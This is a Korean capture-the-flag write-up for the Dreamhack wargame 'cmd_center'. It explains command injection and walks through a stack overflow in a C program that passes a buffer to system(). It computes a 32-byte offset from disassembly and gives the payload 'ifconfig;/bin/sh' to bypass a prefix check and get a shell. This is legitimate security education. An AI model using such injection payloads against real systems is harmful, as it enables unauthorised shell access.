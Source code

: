 # Command Injection, cmd_center

- **인젝션(Injection)**: 악의적인 데이터를 프로그램에 입력하여 이를 시스템 명령어, 코드, 데이터베이스 쿼리 등으로 실행되게 하는 기법
- **커맨드 인젝션(Command Injection)**: 인젝션의 종류 중 하나. 시스템 명령어에 대한 인젝션을 의미함. 취약점이 발생하는 원인은 단순하지만, 매우 치명적인 공격으로 이어질 수 있음. 개발자는 사용자의 입력을 반드시 검사해야 하며, 되도록 `system` 함수의 사용을 자제해야 함.
- **메타 문자(Meta Character)**: 셸 프로그램에서 특수하게 처리하는 문자. `;`를 사용하면 여러 개의 명령어를 순서대로 실행시킬 수 있음.

워게임

cmd_center

## **[문제분석](https://keyme2003.tistory.com/entry/dreamhack-cmdcenter#%EB%AC%B8%EC%A0%9C%EB%B6%84%EC%84%9D-1)**

---

```arduino
#include <stdio.h>
#include <string.h>
#include <unistd.h>
int main()
{

        char cmd_ip[256] = "ifconfig";
        int dummy;
        char center_name[24];

        init();

        printf("Center name: ");
        read(0, center_name, 100);

        if( !strncmp(cmd_ip, "ifconfig", 8)) {
                system(cmd_ip);
        }

        else {
                printf("Something is wrong!\n");
        }
        exit(0);
}
```

**코드 분석**

1. `center_name`에 100 바이트 입력을 받는다.
2. `cmd_ip` 첫 8바이트와 `"ifconfig"`를 비교하고 일치하면 `system(cmd_ip)`를 실행한다.

`center_name`는 24 바이트 크기의 배열이지만, 100 바이트 입력을 저장할 수 있다. 따라서 `center_name` 을 벗어나는 메모리 공간에 쓰기가 가능하고 `OOB`가 발생한다.

`center_name`이 `cmd_ip` 보다 스택에서 상단에 위치하기 때문에, 100 바이트 범위 내의 `cmd_ip` 영역이 존재한다면 `cmd_ip`를 임의의 데이터로 덮을 수 있다.

만약, `cmd_ip` 를 `"/bin/sh"`로 덮는다면, `system(cmd_ip) == system("/bin/sh")`가 실행되면서 쉘을 얻을 수 있다.

하지만 `cmd_ip` 첫 8바이트 값이 `"ifconfig"`인지 검증하는 로직이 있다. 따라서 적절하게 bypass 할 수 있도록 명령어를 구성해야한다.

예를 들면,

```
ifconfig;/bin/sh
```

와 같이 명령어를 구성하면 검증을 우회하고 쉘을 실행할 수 있다.

## **[문제풀이](https://keyme2003.tistory.com/entry/dreamhack-cmdcenter#%EB%AC%B8%EC%A0%9C%ED%92%80%EC%9D%B4-1)**

---

목적은 `center_name`을 이용해서 `cmd_ip`를 `"ifconfig;/bin/sh"`으로 덮어쓰는 것이다. 따라서 `center_name ~ cmd_ip` 거리를 구해야한다.

### **○ read(0, center_name, 100)**

```
   0x0000000000000916 <+105>:   lea    rax,[rbp-0x130]
   0x000000000000091d <+112>:   mov    edx,0x64
   0x0000000000000922 <+117>:   mov    rsi,rax
   0x0000000000000925 <+120>:   mov    edi,0x0
   0x000000000000092a <+125>:   call   0x720 <read@plt>
```

### **○ system(cmd_ip)**

```
   0x000000000000094e <+161>:   lea    rax,[rbp-0x110]
   0x0000000000000955 <+168>:   mov    rdi,rax
   0x0000000000000958 <+171>:   call   0x700 <system@plt>
```

`center_name`은 `<main+105>`를 통해 `[rbp-0x130]`에 위치한다는 것을 알 수 있고 `cmd_ip`는 `<main+161>`를 통해 `[rbp-0x110]`에 위치한다는 것도 알 수 있다.

즉, `center_name ~ cmd_ip` 거리는 `0x130 - 0x110 = 0x20 = 32`이다.

그렇다면 payload는 다음과 같이 작성할 수 있다.

```csharp
[dummy] *32 + "ifconfig;/bin/sh"
```

![cmd_center.jpg](https://prod-files-secure.s3.us-west-2.amazonaws.com/a4983dbd-4924-435d-b0f1-3ca8d60a02fa/812fc3e4-8346-4997-ba32-65d086aadafc/cmd_center.jpg)

플래그 획득
